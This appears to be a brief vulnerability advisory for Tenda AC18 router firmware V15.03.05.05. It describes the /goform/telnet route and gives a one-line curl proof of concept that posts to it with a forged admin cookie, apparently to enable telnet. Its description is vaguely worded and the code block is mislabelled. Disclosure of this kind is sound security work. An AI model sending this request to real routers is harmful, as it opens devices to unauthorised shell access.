 # TendaAC18v15.03.05.05telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102610

## Affected version

AC18v1.0 V15.03.05.05

## Vulnerability details

An issue was discovered in AC18v1.0 V15.03.05.05 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![1736746414925](/img/1736746414925.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![1736746378753](/img/1736746378753.png)

